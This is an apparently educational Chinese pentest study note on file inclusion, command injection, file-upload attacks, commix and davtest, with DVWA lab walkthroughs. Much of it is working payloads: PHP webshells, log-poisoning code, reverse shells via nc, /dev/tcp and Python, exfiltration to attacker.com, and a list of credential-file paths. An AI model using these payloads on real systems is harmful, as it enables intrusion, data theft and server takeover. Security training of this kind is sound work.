


# 06-文件包含与命令注入

## 目录
- [[#一、文件包含漏洞（LFI与RFI）|一、文件包含漏洞（LFI/RFI）]]
 - [[#1.1 漏洞原理|1.1 漏洞原理]]
 - [[#1.2 LFI本地文件包含|1.2 LFI本地文件包含]]
 - [[#1.3 RFI远程文件包含|1.3 RFI远程文件包含]]
 - [[#1.4 LFI to RCE进阶攻击链|1.4 LFI to RCE进阶攻击链]]
- [[#二、命令注入|二、命令注入（Command Injection）]]
 - [[#2.1 注入原理|2.1 注入原理]]
 - [[#2.2 连接符与绕过技巧|2.2 连接符与绕过技巧]]
- [[#三、commix自动化命令注入|三、commix自动化命令注入]]
 - [[#3.1 基本使用|3.1 基本使用]]
 - [[#3.2 高级选项与伪终端|3.2 高级选项与伪终端]]
- [[#四、davtest WebDAV测试|四、davtest WebDAV测试]]
- [[#五、文件上传漏洞|五、文件上传漏洞]]
 - [[#5.1 绕过技巧|5.1 绕过技巧]]
 - [[#5.2 PHP一句话木马|5.2 PHP一句话木马]]
- [[#六、DVWA实战演练|六、DVWA实战演练]]
- [[#七、常见LFI日志路径速查|七、常见LFI日志路径速查]]

---

## 一、文件包含漏洞（LFI/RFI）

### 1.1 漏洞原理

文件包含漏洞发生在应用程序使用用户输入来动态包含文件时，没有进行充分的验证和过滤。参见 [[../网安基础知识/02-Web技术基础|Web技术基础]] 了解Web应用架构。PHP中常见的危险函数：`include()`, `include_once()`, `require()`, `require_once()`。



**漏洞代码示例：**
```php
$file = $_GET['page'];
include($file . ".php");
```

正常请求：`/index.php?page=home` → 包含 `home.php`

恶意请求：`/index.php?page=../../../../etc/passwd` → 路径遍历读取系统文件

### 1.2 LFI本地文件包含

LFI（Local File Inclusion）：包含服务器本地文件。危害等级：高 → 可直接读取敏感文件 → 结合其他技术可升级到RCE。

**典型LFI利用：**

```bash
# 1. 读取系统配置文件
?page=../../../../etc/passwd
?page=../../../../etc/shadow # 需要root权限
?page=../../../../etc/hosts
?page=../../../../proc/self/environ
?page=../../../../var/log/apache2/access.log

# 2. 读取应用配置（获取数据库凭证）
?page=../../../../var/www/html/config.php
?page=../../../wp-config.php
?page=../../.env
```

**PHP Wrapper高级技巧：**

```bash
# php://filter - 读取源码Base64编码（绕过PHP执行）
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/read=convert.base64-encode/resource=config

# expect:// - 执行系统命令（需安装expect扩展）
?page=expect://whoami

# data:// - 注入PHP代码（需allow_url_include=On）
?page=data://text/plain,<?php phpinfo();?>
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

# php://input - 通过POST直接发送PHP代码（需allow_url_include=On）
?page=php://input
POST数据: <?php system('whoami');?>
```

### 1.3 RFI远程文件包含

RFI（Remote File Inclusion）：包含远程服务器上的文件。**危害等级：严重** → 可直接远程执行任意代码，相当于getshell！

利用条件：`allow_url_include = On`（PHP 5.2-）、`allow_url_fopen = On`、目标函数使用用户输入包含文件。

```bash
# Step 1: 攻击者搭建Web服务器
cd /tmp && python3 -m http.server 8080

# Step 2: 创建恶意PHP文件
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.txt

# Step 3: 利用RFI包含远程文件
curl "http://target.com/page.php?page=http://attacker-ip:8080/shell.txt&cmd=whoami"

# Step 4: 升级到完整Shell
# 在shell.txt中写入PHP反向Shell:
cat > /tmp/shell.txt << 'EOF'
<?php
$sock = fsockopen("attacker-ip", 4444);
$proc = proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
EOF
```

### 1.4 LFI to RCE进阶攻击链

**场景1: 日志文件注入（Apache/Nginx）**
```bash
# Step 1: 在User-Agent中注入PHP代码
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/

# Step 2: 包含access.log
curl "http://target.com/page.php?page=../../../../var/log/apache2/access.log&cmd=whoami"
# 路径可能是: /var/log/httpd/access_log, /var/log/nginx/access.log
```

**场景2: /proc/self/environ注入**
```bash
curl -H "User-Agent: <?php system('id'); ?>" http://target.com/
# 包含: ?page=../../../../proc/self/environ
```

**场景3: Session文件注入**
```bash
# Step 1: 注册用户名包含PHP代码: <?php system($_GET['cmd']); ?>
# Step 2: 包含Session文件: ?page=../../../../tmp/sess_<PHPSESSID>&cmd=whoami
```

**场景4: 邮件日志注入** — 发送包含PHP代码的邮件到目标系统，包含 `/var/mail/www-data`。

**场景5: FTP日志注入** — FTP登录名使用PHP代码 `<?php system($_GET['cmd']); ?>`，包含FTP日志。

---

## 二、命令注入（Command Injection）

### 2.1 注入原理

命令注入发生在应用程序调用系统命令时，直接拼接用户输入而不做过滤。与代码注入不同，命令注入直接与操作系统shell交互。

**漏洞代码示例：**
```php
$ip = $_POST['ip'];
system("ping -c 3 " . $ip);
```

正常输入 `127.0.0.1` → 执行：`ping -c 3 127.0.0.1`

恶意输入 `127.0.0.1; whoami` → 执行：`ping -c 3 127.0.0.1; whoami` → 先ping然后执行whoami



### 2.2 连接符与绕过技巧

**Linux命令连接符：**

| 连接符 | 用法 | 说明 |
|--------|------|------|
| `;` | `cmd1; cmd2` | 顺序执行（最常用） |
| `&&` | `cmd1 && cmd2` | cmd1成功才执行cmd2 |
| `\|\|` | `cmd1 \|\| cmd2` | cmd1失败才执行cmd2 |
| `\|` | `cmd1 \| cmd2` | 管道 |
| `` ` `` | `` output=`cmd` `` | 命令替换 |
| `$()` | `output=$(cmd)` | 命令替换 |
| `&` | `cmd1 & cmd2` | 后台执行 |
| `%0a` | `cmd1%0acmd2` | URL编码换行 |

**Windows命令连接符：** `&`, `&&`, `|`, `||`

**场景1: 空格被过滤**
```bash
127.0.0.1;cat${IFS}/etc/passwd
127.0.0.1;cat</etc/passwd
127.0.0.1;{cat,/etc/passwd}
```

**场景2: 敏感关键词被过滤（cat, whoami等）**
```bash
whoami → who""ami, who$()ami, who\ami
cat → more, less, head, tail, nl, tac, strings

# 多种文件读取命令:
cat /etc/passwd
more /etc/passwd
less /etc/passwd
head /etc/passwd
tail /etc/passwd
nl /etc/passwd
tac /etc/passwd
rev /etc/passwd
strings /etc/passwd
od -a /etc/passwd
base64 /etc/passwd | base64 -d
```

**场景3: 斜杠/被过滤**
```bash
# 使用 ${HOME:0:1} 获取 /
$(echo . | tr '!-0' '"-1') # 产生 /
```

**场景4: 命令分隔符被过滤**
```bash
# 使用换行符绕过
127.0.0.1%0awhoami
```

**场景5: 盲命令注入（无回显）**
```bash
# 时间延迟探测
127.0.0.1; sleep 5 # 如果延迟5秒则存在注入

# 外带数据（Out-of-Band）
127.0.0.1; curl http://attacker.com/$(whoami)
127.0.0.1; wget http://attacker.com/$(cat /etc/passwd|base64)
127.0.0.1; nslookup $(whoami).attacker.com
127.0.0.1; ping -c 1 $(whoami).attacker.com
```

---

## 三、commix自动化命令注入

commix（COMMand Injection eXploiter）是命令注入领域的sqlmap，能自动检测GET/POST/Cookie/HTTP头中的命令注入。

### 3.1 基本使用

```bash
# 基本测试（GET参数）
commix --url="http://example.com/vuln.php?id=1"

# POST参数注入（指定参数）
commix --url="http://example.com/ping.php" \
 --data="ip=127.0.0.1&Submit=Submit"
commix --url="http://example.com/ping.php" \
 --data="ip=127.0.0.1&Submit=Submit" -p ip

# Cookie认证 / 代理
commix --url="http://example.com/vuln.php?id=1" \
 --cookie="PHPSESSID=abc123"
commix --url="http://example.com/vuln.php?id=1" \
 --proxy="http://127.0.0.1:8080"
```

### 3.2 高级选项与伪终端

```bash
# 指定操作系统 / 批量模式 / 清空Session
commix --url="URL" --os=Unix --batch --flush-session

# 指定注入技术: t=基于时间, c=经典, f=基于文件, e=期望
commix --url="URL" --technique="t"

# 获取OS Shell（反向连接）
commix --url="URL" --os-shell
commix --url="URL" --reverse-shell \
 --rhost=192.168.1.100 --rport=4444

# 上传/下载文件
commix --url="URL" --file-upload="/local/file" --file-dest="/remote/path/file"
commix --url="URL" --file-read="/etc/passwd"

# 编码绕过 / 忽略SSL / 自定义头 / 随机UA
commix --url="URL" --encoding=hex
commix --url="https://target.com" --ignore-certificate
commix --url="URL" --headers="User-Agent: Custom/1.0\nX-Forwarded-For: 127.0.0.1"
commix --url="URL" --random-agent

# 基于时间的盲注 / 多线程
commix --url="URL" --time-sec=5 --threads=10

# 批量扫描
commix -m targets.txt --batch
commix -l burp.log
```

**伪终端命令（进入伪终端后）：**
```
? → 帮助菜单
os_shell → 切换OS shell
reverse_tcp → 发起反向TCP shell
bind_tcp → 发起绑定TCP shell
read_file → 读取远程文件
write_file → 写入文件到远程
upload → 上传文件
get_current_user → 获取当前用户
get_sys_info → 获取系统信息
get_privs → 获取权限信息
```

---

## 四、davtest WebDAV测试

WebDAV（Web-based Distributed Authoring and Versioning）是HTTP协议扩展，允许客户端远程创建、移动、编辑、删除服务器上的文件和目录。常见WebDAV方法：PROPFIND, MKCOL, MOVE, COPY, LOCK, UNLOCK。

```bash
# 基本测试
davtest -url http://example.com/webdav

# 指定认证 / 自定义上传目录
davtest -url http://example.com/webdav -auth user:password
davtest -url http://example.com/webdav -directory uploads/

# 清理测试文件 / 详细模式 / 指定扩展名
davtest -url http://example.com/webdav -cleanup
davtest -url http://example.com/webdav -verbose
davtest -url http://example.com/webdav -ext php,txt,html,jsp,asp
```

**手工WebDAV测试：**
```bash
# 查看支持的方法
curl -X OPTIONS -v http://example.com/

# 列出目录（PROPFIND）
curl -X PROPFIND http://example.com/

# 创建目录（MKCOL）
curl -X MKCOL http://example.com/newdir/

# 上传文件（PUT）
curl -X PUT -d @shell.txt http://example.com/shell.txt

# 移动文件（MOVE）
curl -X MOVE --header "Destination: http://example.com/shell.php" \
 http://example.com/shell.txt

# 删除文件（DELETE）
curl -X DELETE http://example.com/test.txt
```

---

## 五、文件上传漏洞

### 5.1 绕过技巧

**绕过前端验证：** JavaScript检查文件扩展名 → F12禁用JS或Burp拦截修改。

**绕过扩展名黑名单：**
```
.php 被禁 → .php5, .phtml, .pht, .phar, .php.jpg
.php 被禁 → .php. (Windows), .php::$DATA (Windows NTFS)
.php 被禁 → .Php, .PHP, .pHp（大小写）
.php 被禁 → shell.php.jpg, shell.jpg.php（双扩展）
```

**绕过Content-Type验证：** 修改 `Content-Type: application/x-php` → `image/jpeg`

**绕过内容验证（Magic Bytes）：**
```php
GIF89a;<?php system($_GET['cmd']); ?>
```

**绕过图片处理（exiftool注入）：**
```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
# 结合LFI包含该文件
```

**Apache .htaccess技巧：**
```
# 上传.htaccess使.txt被当作PHP执行
AddType application/x-httpd-php .txt
# 然后上传shell.txt（内容为PHP代码）
```

### 5.2 PHP一句话木马

**经典一句话：**
```php
<?php @eval($_POST['cmd']); ?>
```
使用：`curl -X POST -d "cmd=system('id');" http://target.com/shell.php`

**更隐蔽的一句话：**
```php
<?php
$a = $_POST['x'];
@assert($a);
?>
```
使用：`curl -X POST -d "x=system('id');" http://target.com/shell.php`

---

## 六、DVWA实战演练

### 实战一：DVWA文件包含攻击

```bash
# Step 1-2: 登录DVWA → Security=Low → File Inclusion页面

# Step 3: LFI读取系统文件
curl "http://dvwa.local/vulnerabilities/fi/?page=../../../../etc/passwd"
curl "http://dvwa.local/vulnerabilities/fi/?page=../../../../etc/hosts"
curl "http://dvwa.local/vulnerabilities/fi/?page=../../../../var/log/apache2/access.log"
curl "http://dvwa.local/vulnerabilities/fi/?page=../../../../proc/self/environ"

# Step 5: PHP Wrapper读取源码
curl "http://dvwa.local/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=file1"
# 解码: echo "base64内容" | base64 -d

# Step 6: 日志注入实现LFI to RCE
curl -v -H "User-Agent: <?php system('id'); ?>" http://dvwa.local/
# 然后包含: ?page=../../../../var/log/apache2/access.log

# Step 7: Medium安全级别绕过
# Medium过滤 ../ → 尝试: ....// 等价于 ../
# ?page=....//....//....//....//etc/passwd
```

### 实战二：DVWA命令注入攻击

```bash
# Step 1-3: DVWA → Command Injection (security=low)
# 正常: 127.0.0.1 → ping正常输出

# Step 3: 命令注入测试
# 输入: 127.0.0.1; whoami → 确认注入！
# 输入: 127.0.0.1; id
# 输入: 127.0.0.1; uname -a
# 输入: 127.0.0.1; cat /etc/passwd
# 输入: 127.0.0.1; ls -la /var/www/html/
# 输入: 127.0.0.1; ps aux

# Step 5: 反向Shell
# 攻击机: nc -lvnp 4444
# DVWA输入:
127.0.0.1; nc -e /bin/sh 192.168.1.100 4444
# 或:
127.0.0.1; bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
# 或:
127.0.0.1; python3 -c 'import socket,subprocess,os; \
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); \
 s.connect(("192.168.1.100",4444)); \
 os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); \
 os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

# Step 6: 使用commix自动化
commix --url="http://dvwa.local/vulnerabilities/exec/" \
 --data="ip=127.0.0.1&Submit=Submit" \
 --cookie="PHPSESSID=abc123; security=low"

# Step 7-8: Medium/High安全级别绕过
# Medium过滤 ; 和 &&
# 尝试: 127.0.0.1|whoami / 127.0.0.1&whoami / 127.0.0.1||whoami
# 尝试: 127.0.0.1%0awhoami / 127.0.0.1\nwhoami
```

### 实战三：DVWA文件上传攻击

```bash
# Step 1: 创建PHP Webshell
echo '<?php @eval($_POST["x"]); ?>' > /home/a/shell.php

# Step 2-3: DVWA → File Upload → 上传shell.php

# Step 4: 验证Webshell
curl -X POST -d "x=system('id');" \
 http://dvwa.local/hackable/uploads/shell.php

# Step 5: 获取完整Shell
# 攻击机: nc -lvnp 4445
curl -X POST \
 -d "x=system('nc -e /bin/sh 192.168.1.100 4445');" \
 http://dvwa.local/hackable/uploads/shell.php
```

---

## 七、常见LFI日志路径速查

**常见Linux路径：**
```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/hostname
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf
/etc/php/7.4/apache2/php.ini
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/syslog
/var/log/auth.log
/proc/self/environ
/proc/self/cmdline
/proc/version
/proc/cpuinfo
/home/<user>/.bash_history
/home/<user>/.ssh/id_rsa
```

**常见Windows路径：**
```
C:\Windows\System32\drivers\etc\hosts
C:\Windows\win.ini
C:\Windows\repair\SAM
C:\xampp\apache\conf\httpd.conf
C:\xampp\htdocs\config.php
C:\inetpub\wwwroot\web.config
```

**实战技巧：**
1. LFI + `/proc/self/fd/` → 通过进程文件描述符访问被删除文件
2. LFI + PHP Wrapper → `php://filter` 绕过执行读取源码
3. 命令注入盲打 → 使用DNS外带 `nslookup $(whoami).attacker.com`
4. commix遇到困难 → 先手工确认注入点，再用commix
5. 文件上传 → 优先上传 `.htaccess` 配合LFI使用
6. 日志注入 → 优先尝试Apache，其次是Nginx，最后是SSH

> **法律与安全警告：** LFI/RFI/命令注入均为高危漏洞，仅能在授权环境测试；文件读取可能涉及用户隐私数据；文件写入（上传webshell）将完全控制服务器；commix的`--os-shell`能力相当于获取服务器root权限的前奏；反向Shell连接可能被目标网络防火墙/IDS阻止。

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[05-XSS与CSRF攻击|05-XSS与CSRF攻击]] | 下一模块：[[07-认证与会话攻击|07-认证与会话攻击]]
